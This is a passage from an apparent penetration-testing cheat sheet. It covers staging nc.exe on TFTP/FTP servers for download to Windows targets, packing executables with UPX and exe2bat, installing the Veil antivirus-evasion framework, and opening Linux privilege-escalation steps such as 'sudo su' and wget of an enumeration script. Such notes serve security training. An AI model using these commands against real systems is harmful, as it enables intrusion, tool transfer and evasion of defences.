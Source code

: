     -   TFTP  
        mkdir /tftp  
        atftpd --daemon --port 69 /tftp  
        cp /usr/share/windows-binaries/nc.exe /tftp/  
        EX. FROM WINDOWS HOST:  
        C:\\Users\\Offsec&gt;tftp -i $ip get nc.exe

    -   FTP  
        apt-get update && apt-get install pure-ftpd  
          
        \#!/bin/bash  
        groupadd ftpgroup  
        useradd -g ftpgroup -d /dev/null -s /etc ftpuser  
        pure-pw useradd offsec -u ftpuser -d /ftphome  
        pure-pw mkdb  
        cd /etc/pure-ftpd/auth/  
        ln -s ../conf/PureDB 60pdb  
        mkdir -p /ftphome  
        chown -R ftpuser:ftpgroup /ftphome/  
          
        /etc/init.d/pure-ftpd restart

-   Packing Files
    -------------------------------------------------------------------------------------------------------------

    -   Ultimate Packer for eXecutables  
        upx -9 nc.exe

    -   exe2bat - Converts EXE to a text file that can be copied and
        pasted  
        locate exe2bat  
        wine exe2bat.exe nc.exe nc.txt

    -   Veil - Evasion Framework -
        https://github.com/Veil-Framework/Veil-Evasion  
        apt-get -y install git  
        git clone https://github.com/Veil-Framework/Veil-Evasion.git  
        cd Veil-Evasion/  
        cd setup  
        setup.sh -c

Privilege Escalation
==================================================================================================================

-   Linux Privilege Escalation
    ------------------------------------------------------------------------------------------------------------------------

-   Try the obvious - Maybe the user can sudo to root:  
    sudo su
    
-   Highon.coffee Linux Local Enum 
    `wget https://highon.coffee/downloads/linux-local-enum.sh`

-   Basic Linux Privilege Escalation  
    [*https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/*](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
